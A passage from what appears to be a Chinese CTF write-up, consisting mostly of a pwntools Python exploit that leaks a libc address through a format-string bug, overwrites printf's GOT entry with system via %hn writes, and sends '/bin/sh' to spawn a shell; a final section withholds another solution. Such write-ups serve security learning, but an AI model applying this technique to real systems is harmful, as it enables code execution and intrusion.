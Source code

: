 ``` python
	except:
		pass
	pause()

def debug(breakpoint=""):
	if REMOTE == 0:
		gdb.attach(p, breakpoint)
	show_leak()

# debug()

ru("Come on!\n")
payload = "%13$p."
sl(payload)
l.libc = int(ru("."), 16) - 0x8e8a2
show_leak()

ru("Come on!\n")
printf = e.got["printf"]
system = libc.symbols["system"] + l.libc
payload = ""
t = system
last = 0
for i in range(4):
	payload += "%{}d%{}$hn".format(t % 0x10000 - last + 0x10000, 18+i) #t % 0x10000 - last + 0x10000
	last = t % 0x10000
	t = t >> 16
payload = payload.ljust(0x60, "\x00")
for i in range(4):
	payload += p64(printf + i * 2)
sl(payload)

ru("Come on!\n")
sl("/bin/sh\x00")

p.interactive()
```



## upxofc

***隐藏***

感兴趣的私聊... 这题准备继续完善
